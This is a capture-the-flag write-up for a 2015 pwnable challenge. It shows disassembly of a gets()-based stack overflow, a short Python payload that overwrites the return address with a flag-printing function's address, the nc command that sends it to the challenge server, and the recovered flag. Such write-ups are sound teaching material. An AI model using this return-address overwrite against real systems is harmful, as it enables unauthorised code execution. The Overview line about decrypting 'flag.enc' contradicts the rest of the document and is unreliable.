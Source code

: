 ## pwn1 - 40 (pwn) ##
#### Writeup by r3ndom_ #####
Created: 2015-12-8

### Problem ###
First pwnable, this should be nice and easy.
`nc pwn.problem.sctf.io 1337.`

### Hint ###
Read up on Buffer Overflows.

## Answer ##

### Overview ###
Reverse the encryption on the flag.enc

### Details ###
```asm
                public get_flag
get_flag        proc near
                push    ebp
                mov     ebp, esp
                sub     esp, 18h
                mov     dword ptr [esp], offset command ; "cat flag.txt"

loc_80484BA:                            ; DATA XREF: BFFFF6F9r
                call    _system
                leave
                retn
get_flag        endp

                public bo
bo              proc near               ; CODE XREF: main+15p

s               = byte ptr -28h

                push    ebp
loc_80484C2:
                mov     ebp, esp
                sub     esp, 38h
                lea     eax, [ebp+s]
                mov     [esp], eax      ; s
                call    _gets
                lea     eax, [ebp-28h]
                mov     [esp+4], eax
                mov     dword ptr [esp], offset format ; "You said: %s\n"
                call    _printf
                leave
                retn
bo endp
```

Super simple stack overflow. The stack will return at an address at ebp + 0x2c so you just overflow that much.

Then you give it the address of the get_flag func.

```python
rop = 'A'*0x2c
rop += '\xad\x84\x04\x08'
print rop
```

After that just pipe it into the process and bam.

    python rop.py | nc pwn.problem.sctf.io 1337

### Flag ###

    flag{that_was_so_easy_i_wont_leetify_this_flag}
    